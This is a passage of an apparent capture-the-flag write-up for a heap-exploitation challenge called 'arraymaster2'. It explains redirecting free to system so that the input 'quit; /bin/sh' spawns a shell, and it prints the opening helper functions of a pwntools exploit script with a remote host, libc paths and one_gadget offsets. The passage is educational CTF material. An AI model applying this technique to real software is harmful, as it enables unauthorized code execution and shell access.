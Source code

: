 In our case, the buffer will contain `quit; /bin/sh`, causing the program to quit and then calling `free` (i.e. `system`) on the pointer. `system` won't understand what `quit` means, but it will give us a shell due to `/bin/sh`.

Putting it all together:
```python
from pwn import *
import argparse


# context.log_level = "debug"
LOCAL_PATH = "./arraymaster2"

def get_process(is_remote = False):
    if is_remote:
        return remote("35.207.132.47", 22229)
    else:
        return process(LOCAL_PATH)

def get_libc_path(is_remote = False):
    if is_remote:
        return "./libc-2.27.so"
    else:
        return "/lib/x86_64-linux-gnu/libc.so.6"

def get_one_gadget(libc_base, is_remote = False):
    if is_remote: 
        return libc_base + [0x4f2c5, 0x4f322, 0x10a38c][2]
    else:
        return libc_base + 0x434b2

def read_menu(proc):
    proc.recvuntil("\n> ")

def print_list(proc):
    read_menu(proc)
    proc.sendline("list")
    return proc.recvuntil("\nEnter the command you want to execute.", drop = True)

def init(proc, arr_id, arr_type, arr_length):
    read_menu(proc)
    proc.sendline("init {} {} {}".format(arr_id, arr_type, arr_length))
    log.info("Initializing array '{}' (Type: int{}, Length: {})".format(arr_id, arr_type, arr_length))

def delete(proc, arr_id):
    read_menu(proc)
    proc.sendline("delete {}".format(arr_id))
    log.info("Deleting array '{}'".format(arr_id))

def set_entry(proc, arr_id, arr_index, value):
    read_menu(proc)
    proc.sendline("set {} {} {}".format(arr_id, arr_index, value))
    log.info("Setting index #{} of array '{}' to value '{}' ({})".format(arr_index, arr_id, value, hex(value)))

def get_entry(proc, arr_id, arr_index):
    read_menu(proc)
    proc.sendline("get {} {}".format(arr_id, arr_index))
    out = int(proc.recvline(keepends = False))
    log.info("Index #{} of array '{}' has value '{}' ({})".format(arr_index, arr_id, out, hex(out)))
    return out

```